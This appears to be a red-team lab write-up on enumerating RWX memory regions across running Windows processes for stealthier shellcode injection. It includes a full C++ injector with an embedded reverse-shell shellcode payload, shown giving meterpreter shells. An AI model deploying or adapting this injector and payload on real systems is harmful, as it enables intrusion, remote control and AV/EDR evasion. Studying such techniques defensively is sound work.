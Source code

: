 ```yaml
---
description: 'Code Injection, Defense Evasion'
---
```


# Enumerating RWX Protected Memory Regions for Code Injection

Injecting and executing shellcode from a local or target process requires memory where the shellcode could be written to, read from and executed. 

Some shellcode injection techniques allocate `PAGE_EXECUTE_READWRITE` memory block, fill it with shellcode and create a thread pointing to that shellcode. It's not a very common thing for bening applications to do and this is something AV/EDR solutions may punish you for if they catch you doing it.

Some techniques allocate `PAGE_READWRITE` first, write shellcode to the allocated memory, protect it with `PAGE_EXECUTE_READ` and then execute it, which means that at no point in time there's an RWX memory block in the target process. It is a bit stealthier and may help one sneak past AVs/EDRs.

What both techniques have in common is that they still need to **allocate** and **protect** memory \(RW -&gt; RX or RWX\).  Having said that, it is possible to brute-force/enumerate currently running target processes on the compromised system - search through their allocated memory blocks and check if any those are protected with RWX, so we can attempt to write/read/execute them, which may help evade some optics.

## Overview

In this lab I will write a simple program that will:

* Loop through all the processes on the system
* Query each process's memory information
* Loop through all allocated memory blocks in each process
* Check for any memory block that is protected with RWX && is private && is committed
* If the above condition is met
  * Print out address of the memory block
  * Write shellcode to that memory block
* Create a remote thread that points to the shellcode written in the above step

Running the [Code](finding-all-rwx-protected-memory-regions.md#code) with breakpoint set on line 31 will be hit if the conditions on line 27 are met. The conditions we are checking for are: 

```cpp
mbi.AllocationProtect == PAGE_EXECUTE_READWRITE 
&& mbi.State == MEM_COMMIT 
&& mbi.Type == MEM_PRIVATE
```

Once the breakpoint is hit, we can see that the memory region 27c727a0000 is RX protected, is private and commited and now contains our shellcode \(starting with bytes fc 48 83 e4\) :

![](../../.gitbook/assets/image%20%28246%29.png)

If you noticed and were wondering...

> ### Why were we able to WRITE to an RX memory region?
>
> When you call `Write­Process­Memory` and tell it to write to memory that is read-only, the `Write­Process­Memory` succeeds. How can that be?
>
> Because `Write­Process­Memory` tries really hard to please you.
>
> As I noted some time ago, [the primary audience for functions like `Create­Remote­Thread` and `Write­Process­Memory` is debuggers](https://blogs.msdn.microsoft.com/oldnewthing/20120808-00/?p=6913). And when debuggers try to patch memory, it’s often for things like patching in a breakpoint instruction or doing some [edit-and-continue](https://docs.microsoft.com/en-us/visualstudio/debugger/edit-and-continue?view=vs-2015) magic. So the `Write­Process­Memory` tries really hard to get those bytes written. If the page is read-only, `Write­Process­Memory` temporarily changes the permission to read-write, updates the memory, and then restores the original permission.
>
> “No need to thank me, just trying to help.”
>
> There is a race condition if the target process happens to be manipulating the page protection at the same time that `Write­Process­Memory` is. But that’s okay, because the intended audience is debuggers, and debuggers will freeze the target process before trying to edit its memory.
>
> There is no security hole here, because the way the `Write­Process­Memory` function changes the page protection is basically `Virtual­Protect­Ex`, so it will succeed only if you already could have modified the protections yourself anyway. If you didn’t have permission to change the protections, then `Write­Process­Memory`‘s attempt to change the protections would fail too.
>
> Source: [https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415](https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415)

## Demo

Let's build the program and run it - we can see we got some meterpreter shells.

![](../../.gitbook/assets/memoryenumerationshell.gif)

{% hint style="warning" %}
The below provided code is a dirty POC and may crash certain processes and the Visual Studio banner appearing in the above GIF proves it - the shellcode got injected into Visual Studio \(devenv.exe\) that crashed and restarted itself.
{% endhint %}

## Code

{% tabs %}
{% tab title="rwx-hunter.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	MEMORY_BASIC_INFORMATION mbi = {};
	LPVOID offset = 0;
	HANDLE process = NULL;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	DWORD bytesWritten = 0;
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	Process32First(snapshot, &processEntry);
	while (Process32Next(snapshot, &processEntry))
	{
		process = OpenProcess(MAXIMUM_ALLOWED, false, processEntry.th32ProcessID);
		if (process)
		{
			std::wcout << processEntry.szExeFile << "\n";
			while (VirtualQueryEx(process, offset, &mbi, sizeof(mbi)))
			{
				offset = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);
				if (mbi.AllocationProtect == PAGE_EXECUTE_READWRITE && mbi.State == MEM_COMMIT && mbi.Type == MEM_PRIVATE)
				{
					std::cout << "\tRWX: 0x" << std::hex << mbi.BaseAddress << "\n";
					WriteProcessMemory(process, mbi.BaseAddress, shellcode, sizeof(shellcode), NULL);
					CreateRemoteThread(process, NULL, NULL, (LPTHREAD_START_ROUTINE)mbi.BaseAddress, NULL, NULL, NULL);
				}
			}
			offset = 0;
		}
		CloseHandle(process);
	}

	return 0;
}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex" %}

